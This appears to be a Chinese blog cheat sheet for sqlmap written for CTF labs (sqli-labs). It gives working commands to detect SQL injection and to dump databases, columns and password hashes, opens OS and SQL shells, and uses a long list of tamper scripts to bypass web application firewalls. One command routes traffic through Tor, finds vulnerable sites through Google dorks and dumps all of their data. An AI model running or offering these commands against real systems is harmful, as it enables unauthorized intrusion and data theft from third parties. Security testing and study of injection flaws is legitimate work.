










sqlmap操作详解(常用备忘录)
前言
以前整理了些，在一些ＣＴＦ中发现随着编码、消毒、注入类型的改变有点不够用了。遂又熬了通宵整理了ｓｑｌｍａｐ使用和ｓｑｌ过waf技巧。后续持续更新
常规盲注爆库爆表爆列爆字段（适用较多数据库类型）
判断能否注入
sqlmap -u "http://192.168.43.195/sqlilabs/Less-1/?id=1"

猜解表
sqlmap -u "http://192.168.43.195/sqlilabs/Less-1/?id=1" --tables
》》指定数据库表名sqlmap -u "http://192.168.43.195/sqlilabs/Less-1/?id=1" --tables -D security

猜解列名
sqlmap -u "http://192.168.43.195/sqlilabs/Less-1/?id=1" --columns -T users

猜解字段
sqlmap -u "http://192.168.43.195/sqlilabs/Less-1/?id=1" --dump -T users -C "username,password,id"

利用cookies
--level 2 枚举强度--cookie “uname=admin” 可注入点
在sqlilabs Less20下实验
尝试是否存在注入
sqlmap "http://192.168.43.195/sqlilabs/Less-20/index.php" --cookie "uname=admin*" --level 2

爆库
sqlmap -u "http://192.168.43.195/sqlilabs/Less-20/index.php" --cookie "uname=admin*" --tables --level 2

SQLmap用于mysql注入
(1)查找数据库sqlmap -u "http://192.168.43.195/sqlilabs/Less-20/index.php" --dbs

(2)通过第一步的数据库查找表sqlmap -u "http://192.168.43.195/sqlilabs/Less-20/index.php" --D security --tables
(3)通过表名查列名
sqlmap -u "http://192.168.43.195/sqlilabs/Less-20/index.php" -D security -T users --columns
(4) 通过列查字段sqlmap -u "http://192.168.43.195/sqlilabs/Less-20/index.php" -D security -T users -C “id,user,password” --dump
sqlmap中post登陆框注入
(1) sqlmap -u “http://192.168.43.195/sqlilabs/Less-17" –data “uname=1&passwd=1”

交互式 shell
./sqlmap.py -u “http://www.xxx.com" –os-cmd “ipconfig”
./sqlmap.py -u “http://www.xxx.com" –os-shell
./sqlmap.py -u “http://www.xxx.com" –os-pwn
./sqlmap.py -u “http://www.xxx.com" –sql-shell
条件绝对路径+注入点

伪静态网页注入
显示为HTML网页，其实有和数据库交互
sqlmap -u “http://www.123.com/index/id/2*.com"
sqlmap绕过WAF防火墙
sqlmap tamper下有绕过文件选项
–batch Never ask for user input, use the default behaviour
–tamper=TAMPER Use given script(s) for tampering injection data
常见 encoder: space2hash.py, space2morehash.py, base64encode.py, charencode.py
示例./sqlmap.py -u "http://www.xxx.com" -v 3 --dbs --batch --tamper "space2hash.py"
Tor代理与跳板
sudo service tor start
下面的命令将运行 SQLMap 用一些基本的设置使用 Tor 继续攻击者匿名, 也完全自动化的选择可能脆弱的网站, 使其在谷歌上搜索他们。
从一个终端攻击者将执行下列 (记住, 这只是向您显示攻击者是多
么容易, 您可能不希望运行此):./sqlmap.py --tor --tor-type=SOCKS5 -g "inurl:.php?id=1" --random-agent --dump-all --batch
--time-sec=15
使用 Tor 网络当连接到目标网站攻击
--tor-type=SOCKS5
在 SOCKS5 协议使用 Tor，比默认 Tor 匿名类型 HTTP 代理更好用。
使用代理访问外网网址--proxy=(http|socks5|https)://127.0.0.1:PORT
任意注射点
添加*$ python sqlmap.py -u "http://targeturl" --cookie="param1=value1*;param2=value2"
定制注射负载
选项：--prefix和--suffix
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php\
?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
[...]sqlmap形成payload如下：$query = "SELECT * FROM users WHERE id=('1') <PAYLOAD> AND ('abc'='abc') LIMIT 0, 1";
水平选择
–level
sqlmap使用的有效负载在文本文件中指定xml/payloads.xml
始终测试GET和POST参数，从级别2测试HTTP Cookie标头值，并测试HTTP User-Agent / Referer标头的值3级
页面比较
选项：–string，–not-string，–regexp和–code
//true和false值的选择根据需要来定
‘False 401 True 200’ ->true –code=200
‘False Forbidden True Welcome’ -> –titles=Welcome
sql注入技术选择
B：基于布尔的盲
E：基于错误
U：基于联合查询
S：堆叠查询
T：基于时间的盲人
Q：内联查询例如，ES如果您只想测试和利用基于错误的堆栈查询SQL注入类型，则可以提供。默认值为BEUSTQ
union查询中的sql注入条件修改
–union-cols 改变注入的列数
–union-char 默认使用NULL查询，可以特殊指定查询（–union-char 123）
–union-from 指定from后指定的表名如–union-from =users
注入文件xml学习
参考链接：https://www.freebuf.com/column/161797.html
<test> //payload标题
<title>AND boolean-based blind - WHERE or HAVING clause</title>
//paload注入类型
<stype>1</stype>
//payload发包级别
<level>1</level>
//风险等级指数
<risk>1</risk>
<clause>1,9</clause>
<where>1</where>
//sql注入模板
<vector>AND [INFERENCE]</vector>
//sql注入请求测试
<request>
<payload>AND [RANDNUM]=[RANDNUM]</payload>
</request>
<response>
<comparison>AND [RANDNUM]=[RANDNUM1]</comparison>
</response>
</test>列出数据库信息(包含列出库表列)
–current-user ：会话用户查询
–current-db : 当前数据库
–hostname : 服务器主机名
–is-dba : 检测会话用户是否是数据库管理员
–users ： 列出数据库管理系统用户
–passwords : 列出并列出数据库管理员用户的密码hash
database management system users password hashes:
[*] debian-sys-maint [1]:
password hash: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
clear-text password: root
[*] root [2]:
password hash: *6036DEF7A88F5784569BDE19F070A5C60CE696E6
password hash: *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
clear-text password: root–privileges ：列出数据库管理系统用户权限
–roles ：列出数据库管理系统用户角色
列出除系统数据库以外的表
sqlmap -u http://127.0.0.1/sqli-labs/Less-38/?id=1 –exclude-sysdbs –tables
转存数据库表目
开关和选项：
--dump，-C，-T，-D，--start，--stop，--first，--last，--pivot-column和--where运行自定义SQL语句
选项和开关：--sql-query和--sql-shell
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --\
sql-query "SELECT 'foo'" -v 1
[...]
[hh:mm:14] [INFO] fetching SQL SELECT query output: 'SELECT 'foo''
[hh:mm:14] [INFO] retrieved: foo
SELECT 'foo': 'foo'
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --\
sql-query "SELECT 'foo', 'bar'" -v 2
[...]
[hh:mm:50] [INFO] fetching SQL SELECT query output: 'SELECT 'foo', 'bar''
[hh:mm:50] [INFO] the SQL query provided has more than a field. sqlmap will now
unpack it into distinct queries to be able to retrieve the output even if we are
going blind
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(102)+CHAR(111)+CHAR(111)) AS
VARCHAR(8000)), (CHAR(32)))
[hh:mm:50] [INFO] retrieved: foo
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
[hh:mm:50] [DEBUG] query: SELECT ISNULL(CAST((CHAR(98)+CHAR(97)+CHAR(114)) AS VA
RCHAR(8000)), (CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar': 'foo, bar'这里可以理解为解决特殊查询
新用户运行可执行命令
sqlmap –wizard
搜索数据库常用参数整理
-a, --all Retrieve everything
检索所有，这是拖库的节奏啊
-b, --banner Retrieve DBMS banner
检索数据库的一些标志性的信息，就是指纹这样子吧
--current-user Retrieve DBMS current user
检索当前连接数据库的用户
--current-db Retrieve DBMS current database
检索当前连接的数据库
--hostname Retrieve DBMS server hostname
检索服务器的主机名
--is-dba Detect if the DBMS current user is DBA
检测是不是dba，就是root权限咯
--users Enumerate DBMS users
枚举数据库用户
--passwords Enumerate DBMS users password hashes
枚举数据库用户的哈希值
--privileges Enumerate DBMS users privileges
枚举数据库用户的权限
--roles Enumerate DBMS users roles
枚举数据库用户的角色
--dbs Enumerate DBMS databases
枚举数据库有哪些
--tables Enumerate DBMS database tables
枚举数据表名
--columns Enumerate DBMS database table columns
枚举列名
--schema Enumerate DBMS schema
这个测试过，将所有的数据库的表的基本信息都枚举了，有哪些列，列的数据类型，具体数据就没有枚举
--count Retrieve number of entries for table(s)
枚举表格个数
--dump Dump DBMS database table entries
输出数据库表的数据
--dump-all Dump all DBMS databases tables entries
输出所有
--search Search column(s), table(s) and/or database name(s)
查找特定的列名，表名或数据库名，配合下面的-D,-C,-T
--comments Retrieve DBMS comments
枚举数据库的注释
-D DB DBMS database to enumerate
指定数据库名
-T TBL DBMS database table(s) to enumerate
指定表名
-C COL DBMS database table column(s) to enumerate
指定列名
-X EXCLUDECOL DBMS database table column(s) to not enumerate
指定不枚举那个列
-U USER DBMS user to enumerate
枚举用户，但单独用这个参数感觉没什么用啊，这个可能要看源码才能解决了，估计要配合其他参数
--exclude-sysdbs Exclude DBMS system databases when enumerating tables
枚举时排除系统的数据库
--pivot-column=P.. Pivot column name
以某一列为核心？这个用过没感觉出什么用
--where=DUMPWHERE Use WHERE condition while table dumping
使用where调试限制table的输出
--start=LIMITSTART First query output entry to retrieve
指定开始从第几行开始输出，如--start=3，前两行就不输出了
--stop=LIMITSTOP Last query output entry to retrieve
指定从第几行开始停止输出
--first=FIRSTCHAR First query output word character to retrieve
指定只输出第几个字符开始输出，盲注才有效，亲测
--last=LASTCHAR Last query output word character to retrieve
指定只输出第几个字符停止输出，盲注才有效，亲测，跟上面的配合指定范围，
如 ：--first 3 --last 5 只输出3到5位置的字符
--sql-query=QUERY SQL statement to be executed
指定执行我们的sql语句
--sql-shell Prompt for an interactive SQL shell
返回一个sql的shell
--sql-file=SQLFILE Execute SQL statements from given file(s)
从文件中读取执行sql语句
-D DB 要进行枚举的指定数据库名
-T TBL DBMS数据库表枚举
-C COL DBMS数据库表列枚举
-X EXCLUDECOL DBMS数据库表不进行枚举
./sqlmap.py sqlmap -u "http://www.xxx.com" //查是否有注入，一些基本信息
./sqlmap.py -u "http://www.xxx.com" --dbs //枚举数据库
./sqlmap.py sqlmap -u "http://www.xxx.com" --tables //表名枚举
./sqlmap.py sqlmap -u "http://www.xxx.com" --columns -T 数据库表名 //字段枚举
./sqlmap.py sqlmap -u "http://www.xxx.com" --dump -T 数据库表名 -C "字段1，字段2，字段3" //dump
./sqlmap.py -u "http://www.xxx.com" --dump -D 数据库名 -T 表名 -C "字段名1，字段名2，字段名3" //dump–temper选择总结
参考链接：https://www.freebuf.com/sectool/179035.html
sqlmap版本当前为1.2.7.20，共有57个tamper脚本，与1.0版本相比新增了19个脚本。
序号 脚本名称 注释
1 0x2char 将每个编码后的字符转换为等价表达
2 apostrophemask 单引号替换为Utf8字符
3 apostrophenullencode 替换双引号为%00%27
4 appendnullbyte 有效代码后添加%00
5 base64encode 使用base64编码
6 between 比较符替换为between
7 bluecoat 空格替换为随机空白字符，等号替换为like
8 chardoubleencode 双url编码
9 charencode 将url编码
10 charunicodeencode 使用unicode编码
11 charunicodeescape 以指定的payload反向编码未编码的字符
12 commalesslimit 改变limit语句的写法
13 commalessmid 改变mid语句的写法
14 commentbeforeparentheses 在括号前加内联注释
15 concat2concatws 替换CONCAT为CONCAT_WS
16 equaltolike 等号替换为like
17 escapequotes 双引号替换为\\\\
18 greatest 大于号替换为greatest
19 halfversionedmorekeywords 在每个关键字前加注释
20 htmlencode html编码所有非字母和数字的字符
21 ifnull2casewhenisnull 改变ifnull语句的写法
22 ifnull2ifisnull 替换ifnull为if(isnull(A))
23 informationschemacomment 标示符后添加注释
24 least 替换大于号为least
25 lowercase 全部替换为小写值
26 modsecurityversioned 空格替换为查询版本的注释
27 modsecurityzeroversioned 添加完整的查询版本的注释
28 multiplespaces 添加多个空格
29 nonrecursivereplacement 替换预定义的关键字
30 overlongutf8 将所有字符转义为utf8
31 overlongutf8more 以指定的payload转换所有字符
32 percentage 每个字符前添加%
33 plus2concat 将加号替换为concat函数
34 plus2fnconcat 将加号替换为ODBC函数{fn CONCAT()}
35 randomcase 字符大小写随机替换
36 randomcomments /**/分割关键字
37 securesphere 添加某字符串
38 sp_password 追加sp_password字符串
39 space2comment 空格替换为/**/
40 space2dash 空格替换为–加随机字符
41 space2hash 空格替换为#加随机字符
42 space2morecomment 空格替换为/**_**/
43 space2morehash 空格替换为#加随机字符及换行符
44 space2mssqlblank 空格替换为其他空符号
45 space2mssqlhash 空格替换为%23%0A
46 space2mysqlblank 空格替换为其他空白符号
47 space2mysqldash 空格替换为–%0A
48 space2plus 空格替换为加号
49 space2randomblank 空格替换为备选字符集中的随机字符
50 symboliclogical AND和OR替换为&&和||
51 unionalltounion union all select替换为union select
52 unmagicquotes 宽字符绕过GPC
53 uppercase 全部替换为大写值
54 varnish 添加HTTP头
55 versionedkeywords 用注释封装每个非函数的关键字
56 versionedmorekeywords 使用注释绕过
57 xforwardedfor 添加伪造的HTTP头【MySQL】
版本 可用tamper编号 脚本名称
4/5.0/5.5 1 0x2char
6 between
9 charencode
16 concat2concatws
18 greatest
24 least
25 lowercase
35 randomcase
39 space2comment
49 space2randomblank
53 uppercase
5.1 7 bluecoat
46 space2mysqlblank
5.0/5.5 12 commalesslimit
13 commalessmid
21 ifnull2casewhenisnull
22 ifnull2ifisnull
42 space2morecomment
5.0 15 concat2concatws
26 modsecurityversioned
27 modsecurityzeroversioned
4.0/5.0 41 space2hash
5.1.56 10 charunicodeencode
5.1.56/5.5.11 32 percentage
56 versionedmorekeywords
4.0.18/5.0.22 19 halfversionedmorekeywords
4.0.18/5.1.56/5.5.11 55 versionedkeywords
5.1.41 43 space2morehash
未指定版本 14 commentbeforeparentheses
40 space2dash
45 space2mssqlhash
47 space2mysqldash本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！